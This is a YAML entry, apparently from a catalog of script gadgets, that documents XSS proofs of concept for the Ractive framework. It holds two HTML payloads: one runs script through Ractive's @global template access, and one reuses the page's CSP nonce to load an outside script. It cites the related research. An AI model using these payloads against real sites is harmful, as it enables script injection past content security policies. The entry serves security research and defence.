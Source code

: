 ```yaml
---
description: It"s a JavaScript library for building reactive user interfaces in a way that doesn"t force you into a particular framework"s way of thinking. It takes a radically different approach to DOM manipulation - one that saves both you and the browser unnecessary work.
github: ractivejs/ractive
gadgets:
  Latest:
    authors:
      - twitter:slekies
      - twitter:kkotowicz
      - twitter:sirdarckcat
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - script-tag
      - id-attr
      - nonce-csp
      - unsafe-eval-csp
      - func-call-parameter
    pocs:
      - description: |
          The [Ractive](https://github.com/ractivejs/ractive) framework uses the `template` attribute value as a query selector for `<script>` elements. It then renders the content of the selected template.

          Due to the way the templating system works, it is possible to execute arbitrary scripts through the template.
        code: |
          <div id="app"></div>

          <!-- user input -->
          <script id="template">{{@global.window.alert(@global.document.domain)}}</script>

          <script nonce="secret" src="https://cdn.jsdelivr.net/npm/ractive@1.4.4/ractive.min.js"></script>
          <script nonce="secret">
            const ractive = new Ractive({
              target: "#app",
              template: "#template",
              data: {
                name: "World"
              }
            });
          </script>
      - description: It is also possible to retrieve the nonce from the current script element and use it to load a script.
        code: |
          <div id="app"></div>

          <!-- user input -->
          <script id="template"><script nonce="{{@global.document.currentScript.nonce}}" src="[current-location]/assets/xss/index.js" /></script>

          <script nonce="secret" src="https://cdn.jsdelivr.net/npm/ractive@1.4.4/ractive.min.js"></script>
          <script nonce="secret">
            const ractive = new Ractive({
              target: "#app",
              template: "#template",
              data: {
                name: "World"
              }
            });
          </script>
    links:
      - http://sebastian-lekies.de/slides/appsec2017.pdf
      - https://acmccs.github.io/papers/p1709-lekiesA.pdf
      - https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf
      - https://github.com/google/security-research-pocs/blob/master/script-gadgets/repo/csp/sd/ractive.php
      - https://github.com/google/security-research-pocs/blob/master/script-gadgets/repo/csp/sd/ractive_exploit.php
---
```

